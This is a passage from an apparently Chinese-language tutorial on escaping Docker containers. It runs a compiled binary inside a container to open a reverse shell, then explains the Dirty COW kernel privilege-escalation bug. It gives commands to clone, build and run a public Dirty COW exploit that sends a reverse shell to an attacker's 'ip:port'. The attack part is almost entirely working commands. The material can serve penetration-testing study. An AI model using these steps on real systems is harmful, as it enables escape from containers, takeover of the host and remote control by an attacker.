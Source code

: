 ```bash
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

3、编译好后传入 docker 容器中

```bash
docker cp main 1fa6a736e332:/home
docker exec -it 1fa6a736e332 /bin/bash
cd /home/
chmod 777 main
```

4.运行 main 程序成功反弹 shell

```bash
./main
```

## 脏牛漏洞逃逸

Dirty Cow 是 Linux 内核中的提权漏洞，源于 Linux 内核的内存子系统在处理写入拷贝时存在竞争条件（race condition），允许恶意用户提权获取其他只读内存映射的写访问权限。

docker 和宿主机共享内核，因此就可利用该漏洞进行逃逸

```bash
git clone https://github.com/gebl/dirtycow-docker-vdso.git
cd dirtycow-docker-vdso/
docker-compose run dirtycow /bin/bash

cd /dirtycow-vdso/
make
./0xdeadbeef ip:port // 反弹 shell
```
